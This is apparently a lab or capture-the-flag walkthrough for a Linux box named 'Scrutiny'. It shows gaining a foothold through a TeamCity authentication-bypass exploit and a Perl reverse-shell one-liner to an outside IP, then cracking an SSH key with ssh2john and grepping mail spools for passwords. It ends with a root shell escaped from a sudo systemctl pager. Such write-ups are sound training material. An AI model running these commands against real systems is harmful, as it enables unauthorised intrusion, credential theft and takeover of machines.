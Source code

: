 # 🛡️ Scrutiny (Linux)

## 🔍 Initial Foothold
- Discovered a **TeamCity login page**.
- Found exploit: [CVE-2024-27198](https://github.com/Chocapikk/CVE-2024-27198)
  - Removed `import alive_progress` line due to errors.
  - Ran the exploit:
    ```bash
    python3 exploit.py --url http://teams.onlyrands.com/ --add-user
    ```
  - Gained user credentials and later a shell through command execution.
  - Upgraded to a reverse shell using:
    ```bash
    perl -e 'use Socket;$i="192.168.45.194";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));     if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");     open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
    ```

- Found `id_rsa` in user section "marcot".
  - Converted to hash: `ssh2john id_rsa > hash`
  - Cracked to reveal password: `cheer`
  - SSH’d into machine as `marcot`.

## 🚀 Privilege Escalation
- As `marcot`, discovered `mathew`'s password using:
  ```bash
  grep -i password /var/mail/* /var/spool/mail/*
  ```
- Found `.~` hidden file in `mathew`'s home with password for user `briand` (aka Dach).
- Switched to `briand` using `su briand`.
- Ran `sudo -l` and discovered root access to:
  ```bash
  sudo systemctl status teamcity-server.service
  # or
  sudo -u root /usr/bin/systemctl status teamcity-server.service
  ```
- At the command output prompt, typed `!sh` to spawn a root shell.

## 🧠 Key Takeaways
- 🧾 Use enum tools like grep on system mail for leaked credentials.
- 🔑 Cracking `id_rsa` with `ssh2john` can be a golden ticket.
- 🐚 Reverse shell upgrade techniques matter.
- ⚙️ Abusing `systemctl` output commands like `!sh` is a powerful escalation vector.